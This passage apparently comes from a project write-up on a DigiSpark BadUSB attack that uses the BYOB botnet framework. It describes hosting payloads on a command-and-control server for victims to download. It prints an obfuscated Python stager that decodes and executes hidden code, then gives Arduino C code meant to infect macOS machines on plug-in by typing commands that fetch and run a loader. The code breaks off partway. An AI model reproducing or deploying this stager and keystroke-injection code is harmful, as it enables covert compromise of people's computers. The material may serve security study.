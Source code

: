 In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.

![payload_directory](./images/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


### Mac (OSX) Payload
In order to prevent the keyboard configuration dialog box from appearing when the DigiSpark is plugged into an Apple computer, we must configure the DigiSpark to appear as if it's an Apple keyboard.

VID and PID are defined in the file `~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/usbconfig.h`. We will replace the existing file with a [modified Apple version](./scripts/Digispark/usbconfig.h) when compiling the script for OSX. When we change Vendor Name and Device Name, we also have to adapt the constants for the name length.

The following code is what we've developed to infect Apple OSX machines upon plugin.  
```c
#include "DigiKeyboard.h"

/***
 *
 * This is an attack for Mac (OSX) machines. It opens up a terminal window, and executes the bash command. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 *
 ***/

#define MOD_CMD_LEFT 0x00000008

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
```